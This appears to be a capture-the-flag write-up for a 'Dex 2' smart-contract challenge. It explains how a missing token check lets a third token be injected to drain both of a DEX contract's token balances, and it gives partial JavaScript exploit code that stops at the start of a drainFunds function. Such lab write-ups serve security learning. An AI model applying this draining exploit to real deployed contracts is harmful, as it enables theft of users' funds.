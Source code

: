## Dex 2

## Challenge Description

Same as Dex v1 but now we need to drain both tokens.

### Analysis

Same here but we got one less check that makes it possible to inject a third token and thus draining both contract's main tokens' balance.

![Dex 2 Function](images/aeb9bb0ecc92f4b707acbc9170c3bd3355c4361d3523704a799bc8717093366d.png)  

### Exploitation

```js
const contractABI = artifacts.require("Dex");

let contract ;
let TOKEN1_ADDRESS = "0x954aB18d300D8FFE76a2eFE7B36fcD6EF36825c7";
let TOKEN2_ADDRESS = "0xE651aD37ac31B03F7B49036248A29DC75D0093E6";

const TOKEN3_ADDRESS= "0xfe5A0de02e7c76f2A51e3d297e65ccE784787538"

let PLAYER='0x84e7a3679A82C2766Ff8382862ab883FF9460307'

async function getBalances(){
    const token1Balance = (await contract.balanceOf(TOKEN1_ADDRESS,contract.address)).toNumber();
    const token2Balance = (await contract.balanceOf(TOKEN2_ADDRESS,contract.address)).toNumber();
    console.log(`Current Balances for contract : A : ${token1Balance} \t B : ${token2Balance}`);
    return {token1Balance,token2Balance}
}

async function knowTokenValues({token1Balance,token2Balance}){
    return {mostExpensiveToken: token1Balance >= token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS,cheapestToken:token1Balance < token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS };
}

async function getSwapValues(tokensWithValues){
    let toSwap  = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,PLAYER)).toNumber();
    let available = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,contract.address)).toNumber();

    // making sure at the end when we get most of balance in one token type we can still get the rest of the tokens.
    if(toSwap>available)toSwap=available;

    return toSwap;
}


async function drainFunds(){
    
    let flag=true;
```
